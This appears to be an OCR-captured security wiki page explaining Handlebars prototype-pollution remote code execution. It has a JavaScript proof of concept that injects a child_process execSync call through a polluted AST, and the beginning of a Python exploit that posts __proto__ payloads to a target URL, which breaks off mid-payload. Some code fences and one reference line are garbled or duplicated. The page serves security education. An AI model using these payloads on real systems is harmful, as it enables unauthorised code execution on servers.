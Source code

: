 ```

**Exploitation Process**

The exploitation leverages the AST (Abstract Syntax Tree) produced by Handlebars, following these steps:

1. **Manipulation of the Parser**: Initially, the parser, via the `NumberLiteral` node, enforces that values are numeric. Prototype pollution can circumvent this, enabling the insertion of non-numeric strings.
2. **Handling by the Compiler**: The compiler can process an AST Object or a string template. If `input.type` equals `Program`, the input is treated as pre-parsed, which can be exploited.
3. **Injection of Code**: Through manipulation of `Object.prototype`, one can inject arbitrary code into the template function, which may lead to remote code execution.

An example demonstrating the exploitation of the Handlebars vulnerability:

```javascript
const Handlebars = require("handlebars")

Object.prototype.type = "Program"
Object.prototype.body = [
  {
    type: "MustacheStatement",
    path: 0,
    params: [
      {
        type: "NumberLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('id').toString())",
      },
    ],
    loc: {
      start: 0,
      end: 0,
    },
  },
]

const source = `Hello {{ msg }}
const template = Handlebars.precompile(source)

console.log(eval("(" + template + ")")["main"].toString())
```
```
This code showcases how an attacker could inject arbitrary code into a Handlebars template.

**External Reference**: An issue related to prototype pollution was found in the 'flat' library, as detailed here: [[https://github.com/hughsk/flat/issues/105|Issue on GitHub]].

**External Reference**: [[https://github.com/hughsk/flat/issues/105|Issue related to prototype pollution in the 'flat' library]]

Example of prototype pollution exploit in Python:

```python
import requests

TARGET_URL = 'http://10.10.10.10:9090'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
```